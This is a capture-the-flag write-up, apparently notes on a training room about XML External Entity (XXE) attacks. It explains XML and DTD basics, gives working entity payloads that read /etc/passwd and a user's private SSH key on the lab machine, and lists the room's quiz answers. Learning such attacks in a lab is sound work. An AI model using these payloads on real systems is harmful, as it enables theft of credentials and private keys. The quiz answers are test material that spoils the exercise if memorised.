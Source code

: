 xxe

`This room aims at providing the basic introduction to XML External entity(XXE vulnerability.`


### TASK 1:Deploy the VM:


An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.  
  
There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).  
1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.



 ### TASK 2: eXtensible Markup Language:
 
 Before we move on to learn about XXE exploitation we'll have to understand XML properly.  
  
**What is XML?**  
  
XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.  
  
**Why we use XML?**  
  
1\. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.  
  
2\. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.  
  
3\. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.  
  
4\. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.  
  
**Syntax**  
  
Every XML document mostly starts with what is known as XML Prolog.  
  
`<?xml version="1.0" encoding="UTF-8"?>`

  
Above the line is called XML prolog and it specifies the XML version and the encoding used in the XML document. This line is not compulsory to use but it is considered a \`good practice\` to put that line in all your XML documents.  
  
  
Every XML document must contain a \`ROOT\` element.  
  
Ex:  

`<?xml version="1.0" encoding="UTF-8"?>  
<mail>  
   <to>falcon</to>  
   <from>feast</from>  
   <subject>About XXE</subject>  
   <text>Teach about XXE</text>  
</mail>`  

  
In the above example the `<mail>` is the ROOT element of that document and `<to>`, `<from>`, `<subject>`, `<text>` are the children elements. If the XML document doesn't have any root element then it would be considered`wrong` or `invalid` XML doc.  
  
Another thing to remember is that XML is a case sensitive language. If a tag starts like `<to>` then it has to end by `</to>` and not by something like `</To>`(notice the capitalization of `T`)  
  
Like HTML we can use attributes in XML too. The syntax for having attributes is also very similar to HTML.  
  
Ex:  
  
`<text category = "message">You need to learn about XXE</text>  
`  

  
In the above example `category` is the attribute name and `message` is the attribute value.

 
1.  **Is XML case sensitive?**
` yes`

2. **Is it compulsory to have XML prolog in XML documents?**
`no`

3. **Can we validate XML documents against so schema?**
`yes`

4. **How can we specify XML version and encoding in XML document?**
`xml prolog`


### TASK 3: DTD

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named `note.dtd` with the following content:  

`<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`  

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.

Ex: Below is given an XML document that uses `note.dtd`
`
<?xml version\="1.0" encoding\="UTF-8"?\>  
<!DOCTYPE note SYSTEM "note.dtd"\>  
<note\>  
 <to\>falcon</to\>  
 <from\>feast</from\>  
 <heading\>hacking</heading\>  
 <body\>XXE attack</body\>  
</note\>
`

So now let's understand how that DTD validates the XML. Here's what all those terms used in `note.dtd` mean  

-   !DOCTYPE note -  Defines a root element of the document named **note**
-   !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
-   !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
-   !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
-   !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
-   !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

    **NOTE**: #PCDATA means parseable character data.
	
	1. With what extension do you save a DTD file?
	*dtd*
	
	2. How do you define a new ELEMENT?
	*!ELEMENT*
	
	3. How do you define a ROOT element?
	*!DOCTYPE*
	
	4. How do you define a new ENTITY?
	*!ENTITY*
	
	
	

### TASK 4: XXE payload

Now we'll see some XXE payload and see how they are working.  
  
1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.  
  
`<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>  
 </userInfo>  
`  

  
As we can see we are defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.  

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword  
  
`<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>`  
  
Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to \`SYSTEM\` and path of the file.  
  
If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.


*Try the payload mentioned in description on the website.*


### TASK 5 : Exploiting

Now let us see some payloads in action. The payload that I'll be using is the one we saw in the previous task.

1) Let's see how the website would look if we'll try to use the payload for displaying the name.

![](https://i.imgur.com/OHXXxi4.png)  


On the left side, we can see the burp request that was sent with the URL encoded payload and on the right side we can see that the payload was able to successfully display name `falcon feast`

  
2) Now let's try to read the `/etc/passwd`

![](https://i.imgur.com/092GSLz.png)


1. Try to display your own name using any payload.

*payload:*
`<!DOCTYPE replace \[<!ENTITY lastname "cat"> \]>  
<userInfo>  
<firstName>hacker</firstName>  
<lastName>&lastname;</lastName>  
</userInfo>`

![](Pastedimage20210609130544.png)

2. See if you can read the /etc/passwd

![](Pasted image 20210609130615.png)

*payload*:

*<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>*




3. What is the name of the user in /etc/passwd
*falcon*

4. Where is falcon's SSH key located?
*HINT:/home/falcon/.ssh/id\_rsa*

5. What are the first 18 characters for falcon's private key

*payload*:

`
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa
'>]>
<root>&read;</root>
`



![](Pastedimage20210609130832.png)

